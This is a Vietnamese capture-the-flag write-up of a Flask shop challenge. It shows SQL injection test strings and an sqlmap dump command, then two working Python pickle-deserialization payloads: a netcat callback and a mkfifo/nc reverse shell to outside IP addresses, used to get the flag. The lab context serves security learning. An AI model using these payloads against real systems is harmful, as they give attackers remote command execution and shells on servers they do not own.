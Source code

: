 ```yaml
---
layout: post
title: THM C.O.P Writeup
date: 2022-11-24
categories: ["hackthebox"]
---
```


# Phân Tích Code
Vì đề bài cho source code nên mình sẽ tiến hành phần tích mã nguồn để xem ứng dụng có những chức năng gì và luồng của code như thế nào.

Đây là mã nguồn được viết bằng Python và Flask. Tôi sẽ đọc tệp ```routes.py``` để biết thông tin đầu vào của trang web.

![](https://i.imgur.com/phZwpEK.png)

Ở đây mình thấy có 2 chức năng là homepage và viewpage. Trang homepage sẽ hiển thị tất cả các sản phẩm và trang viewpage sẽ hiển thị chi tiết từng sản phẩm. 

Hai chức năng query all_product và select_by_id ở trong class Shop trong file ```models.py```, mình sẽ kiểm tra 2 chức năng này.

![Imgur](https://i.imgur.com/DCB0srs.png)

Trong hàm select_by_id có truyền 1 biến product_id và biến này không được filter => điều này có thể dẫn đến lỗi SQL Injection. 

![Imgur](https://i.imgur.com/a2tiI4C.png)

Ngay cả trong hàm query_db cũng không được filter. 

# Khai Thác SQLi
Mình thử payload ```' or '1'='1``` và ```' or '1'='2```

![Imgur](https://i.imgur.com/efANYyE.png)

![Imgur](https://i.imgur.com/TUEMQpf.png)

Tiếp theo mình sẽ sử dụng sqlmap để thực hiện khai thác dump db.

```
python sqlmap.py -u http://localhost:8888/view/1 --random-agent --level=5 --risk=3 --dbms=mysql --dump
```

![Imgur](https://i.imgur.com/kuTmzc2.png)

Kết quả mình nhận được là dữ liệu đã bị encode dạng base64. 

=> Có vẻ như mình đã sai hay thiếu ở đâu đó.

# Tiếp Tục Phân Tích Code
Khi mình quay lại phân tích file ```routes.py``` thì mình mới để ý là dữ liệu hiển thị trong file ```item.html```

```python
@web.route('/view/<product_id>')
def product_details(product_id):
    return render_template('item.html', product=shop.select_by_id(product_id))
```

Nội dung của file ```item.html``` có 1 đoạn như thế này

```html
	<section class="py-5">
            <div class="container px-4 px-lg-5 my-5">
                <div class="row gx-4 gx-lg-5 align-items-center">
                    { set item = product | pickle }
                    <div class="col-md-6"><img class="card-img-top mb-5 mb-md-0" src="{{ item.image }}" alt="..." /></div>
                    <div class="col-md-6">
                        <h1 class="display-5 fw-bolder">{{ item.name }}</h1>
                        <div class="fs-5 mb-5">
                            <span>£{{ item.price }}</span>
                        </div>
                        <p class="lead">{{ item.description }}</p>
                    </div>
                </div>
            </div>
        </section>
```

Nội dung hiển thị ra được sử dụng hàm ```pickle``` để bảo vệ.

Và trong file ```app.py```, hàm sẽ được trả ra kết quả base64.

```python
@app.template_filter('pickle')
def pickle_loads(s):
	return pickle.loads(base64.b64decode(s))
```

Và sau một thời gian tìm kiếm trên google và về hàm pickle. Mình nhận thấy rằng hàm này có thể RCE.

- [https://davidhamann.de/2020/04/05/exploiting-python-pickle/ ](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
- [https://docs.python.org/3/library/pickle.html ](https://docs.python.org/3/library/pickle.html)

# Exploit
Trước tiên, mình thử ```nc``` đến server của mình để xem nó có hoạt động hay không với payload:

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ("nc 103.68.192.239 8899")
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    data = base64.b64encode(pickled).decode()
    print(data)
```

Mở 1 port 8899 trên server với lệnh sau: ```nc -lnvp 8899```

Sau đó mình sử dụng burpsuite để thực hiện gửi payload lên ứng dụng web. 

![Imgur](https://i.imgur.com/OdzcERa.png)

Và mình nhận được 1 kết nối lên server.

![Imgur](https://i.imgur.com/43ZUklf.png)

Tiếp theo mình tạo một payload để thực hiện reverse shell về server của mình

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 103.69.195.239 8899 >/tmp/f")
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    data = base64.b64encode(pickled).decode()
    print(data)
```

Và send payload lên ứng dụng

![Imgur](https://i.imgur.com/QbxrAYV.png)

Sau đó mình có được shell và get flag

![Imgur](https://i.imgur.com/tb8HHve.png)


